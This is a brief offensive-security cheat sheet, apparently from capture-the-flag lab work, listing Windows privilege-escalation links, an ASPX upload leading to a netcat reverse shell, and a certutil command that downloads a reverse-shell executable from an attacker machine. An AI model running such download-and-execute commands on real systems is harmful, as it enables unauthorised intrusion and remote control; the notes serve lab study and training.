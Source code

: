 # Privilege escalation

https://guif.re/windowseop#Windows%20version%20map

# ASPX File upload -> Download nc.exe and take reverse shell

https://gist.github.com/gazcbm/ea7206fbbad83f62080e0bbbeda77d9c


## Powershell script to download exe from the kali machine (From Cmd)

https://www.absolomb.com/2017-12-29-HackTheBox-Arctic-Writeup/


## Download files from kali machine using certutil

certutil.exe -urlcache -split -f http://10.10.14.33:8888/reverse.exe reverse.exe



